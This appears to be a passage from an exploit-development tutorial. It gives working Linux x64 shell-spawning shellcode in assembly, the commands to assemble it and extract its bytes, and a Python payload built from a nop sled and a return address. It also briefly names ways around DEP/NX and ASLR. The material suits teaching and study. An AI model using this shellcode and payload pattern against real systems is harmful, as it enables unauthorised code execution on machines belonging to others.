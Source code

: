 ### Shellcode Development

**Shellcode** is position-independent code (typically for spawning a shell).

**Linux x64 shellcode (execve("/bin/sh")):**

```nasm
; execve("/bin/sh", NULL, NULL)
; syscall number: 59 (in RAX)

section .text
global _start

_start:
    xor rax, rax        ; RAX = 0
    push rax            ; NULL terminator
    mov rdi, 0x68732f6e69622f  ; "/bin/sh" (little-endian)
    push rdi            ; Push "/bin/sh" onto stack
    mov rdi, rsp        ; RDI = pointer to "/bin/sh"
    xor rsi, rsi        ; RSI = NULL (argv)
    xor rdx, rdx        ; RDX = NULL (envp)
    mov al, 59          ; RAX = 59 (execve syscall)
    syscall             ; Execute syscall
```

**Assemble shellcode:**

```bash
# Assemble:
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode

# Extract bytes:
objdump -d shellcode -M intel | grep '^ ' | cut -f2 | tr -d ' \n'
# Output: 4831c05048bf2f62696e2f736800574889e74831f64831d2b03b0f05
```

**Python shellcode payload:**

```python
shellcode = b"\x48\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"
shellcode += b"\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05"

# Use in exploit:
payload = nop_sled + shellcode + return_address
```

### Bypassing Protections

**DEP/NX (Data Execution Prevention):**
- **What it does:** Marks stack/heap as non-executable
- **Bypass:** ROP (return-oriented programming)

**ASLR (Address Space Layout Randomization):**
- **What it does:** Randomizes base addresses of stack, heap, libraries
- **Bypass:** Information leak (leak address, calculate offsets)
